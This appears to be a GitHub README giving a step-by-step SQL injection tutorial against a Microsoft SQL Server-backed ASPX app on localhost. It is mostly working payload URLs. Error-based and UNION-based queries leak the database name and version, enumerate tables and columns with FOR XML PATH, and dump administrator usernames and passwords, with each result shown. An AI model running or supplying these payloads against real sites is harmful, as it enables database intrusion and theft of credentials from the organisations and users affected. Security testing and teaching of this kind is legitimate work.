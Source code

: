 # MSSQL-Injection

Now let's get started the ERROR BASED INJECTION on MSSQL server, MSSQL it's Microsoft SQL Server in this post i will use error based injection with malicious interogation for manipulation database and extract administrator credentials. I will use a vulnerable aspx app in localhost for this example. I do not support these illegal activities !
```sql
 http://localhost/Product.aspx?Id=13 and 1=db_name()--
```

Using this simple query we will see the name of the database.

![Screenshot from 2024-01-25 10-31-38](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/d42f8d12-0fd2-41e6-a6db-3c795ab06f89)

Now the database name is "chemtraders" 
Next step i want to see the DB and OS version for this i will use this query:

```sql
http://localhost/Product.aspx?Id=13 and @@version=1--
```

and output is:

![Screenshot from 2024-01-25 10-34-56](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/94adade4-c58f-49d4-99df-0dcf67fe0c66)

We see "Microsoft SQL Server 2012 ( SP1 )"

Now let's get extract Tables name and Columns from DB with one query:
```sql
http://localhost/Product.aspx?Id=13 and 1=(select+table_name%2b'::'%2bcolumn_name as t+from+information_schema.columns FOR XML PATH(''))--
```
and output is:

![Screenshot from 2024-01-25 10-54-54](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/3fb8189d-d4c9-4e23-b7b4-f692acc6eb26)

Ok now are interested:

AdminLogin ( Table )
UserName ( Column )
Password ( Column )

Let's get dump from this Columns ( UserName and Password ):
```sql
http://localhost/Product.aspx?Id=13 and 1=(select+Password,username+from+AdminLogin FOR XML PATH(''))--
```
Output is:

![Screenshot from 2024-01-25 11-01-25](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/7704a537-2f76-4bcf-a1e1-886dd15186d4)

```plaintext
Username: admcheter
Password: bweb@chem#123$tre ( this is plaintext )
```

This query it's in Error Based but it is possible and with Union Select

Let's see how we do this

```sql
http://localhost/Category-Product.aspx?id=-6' union select 1,(select table_name%2b'::'%2bcolumn_name as t from information_schema.columns FOR XML PATH('')),3-- -
```

![Screenshot from 2024-01-25 11-11-32](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/41178b9a-951e-4bee-b8e4-dace0a350e9b)

Now we see UserInfo, username and Password.

For this situation i want to extract Administration credential form this columns
```sql
http://localhost/Category-Product.aspx?id=-6&' union select 1,(select User_Name,Password from UserInfo FOR XML PATH('')),3-- -
```
![Screenshot from 2024-01-25 11-16-25](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/abf6e991-823d-42c7-a440-4c6b81441939)
```plaintext
Username: Admin
Password: simplifi@123 ( plaintext )
```
We are done for tested my MsSQL db.







